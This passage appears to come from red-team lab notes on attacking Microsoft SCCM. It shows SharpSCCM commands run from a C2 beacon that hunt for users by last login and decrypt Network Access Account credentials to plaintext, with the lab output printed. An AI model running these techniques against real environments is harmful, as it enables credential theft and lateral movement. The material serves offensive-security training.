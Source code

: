 You can also use SCCM as a form of user hunting, since it records the last user to login to each managed computer.

**The&#x20;**<mark style="color:yellow;">**`-u`**</mark>**&#x20;parameter will only return devices where the given user was the last to login:**

```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner

-----------------------------------
IPAddresses: 10.10.123.101
IPSubnets: 10.10.122.0
Name: WKSTN-1
-----------------------------------
[+] Completed execution in 00:00:01.7570393
```

{% hint style="info" %}
Keep these results worth a grain of salt because this information is only updated in SCCM every 7 days by default.
{% endhint %}

## Network Access Account Credentials

In a Windows environment, the majority of computers will be domain-joined and will therefore authenticate to SCCM Software Distribution Points (SDPs — which are pretty much just SMB shares) using their own machine account credentials.

However, some computers may not be domain-joined.&#x20;

Network Access Account credentials (NAAs) are domain credentials that are intended to be used by these machines to access the SDPs over the network. They are passed to the machines as part of the SCCM machine policies, which are then encrypted using DPAPI and stored locally.

If they are present, privileged users can retrieve these credentialed blobs via WMI or directly from disk and decrypt them to recover plaintext credentials:

**Use&#x20;**<mark style="color:yellow;">**`local naa`**</mark>**&#x20;with&#x20;**<mark style="color:yellow;">**`-m wmi`**</mark>**&#x20;or&#x20;**<mark style="color:yellow;">**`-m disk`**</mark>**:**

```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner

[+] Connecting to \\127.0.0.1\root\ccm\policy\Machine\ActualConfig
[+] Retrieving network access account blobs via WMI
[+] Retrieving task sequence blobs via WMI
[+] Retrieving collection variable blobs via WMI

[...snip...]

[+] Decrypting network access account credentials

    NetworkAccessUsername: cyberbotic.io\sccm_svc
    NetworkAccessPassword: Cyberb0tic
```
